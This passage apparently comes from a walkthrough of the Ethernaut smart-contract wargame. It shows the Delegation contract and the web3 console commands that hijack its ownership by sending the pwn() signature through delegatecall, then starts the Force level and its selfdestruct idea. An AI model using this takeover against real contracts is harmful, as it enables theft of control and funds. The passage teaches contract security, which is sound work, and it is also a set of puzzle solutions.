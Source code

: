 ```solidity

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

A simple one if you clearly understand how `delegatecall` works, which is being used in `fallback` method of `Delegation`.

We just have to send function signature of `pwn` method of `Delegate` as `msg.data` to `fallback` so that _code_ of `Delegate` is executed in the context of `Delegation`. That changes the ownership of `Delegation`.

So, first get encoded function signature of `pwn`, in console:

```js
signature = web3.eth.abi.encodeFunctionSignature("pwn()");
```

Then we send a transaction with `signature` as data, so that `fallback` gets called:

```js
await contract.sendTransaction({ from: player, data: signature });
```

### Level 7. [Force](https://dev.to/nvn/ethernaut-hacks-level-7-force-4g2o) (\*\*\*)

In solidity, for a contract to be able to receive ether, the fallback function must be marked **payable**.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.

`player` has to somehow make this empty contract's balance grater that 0.

Given Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
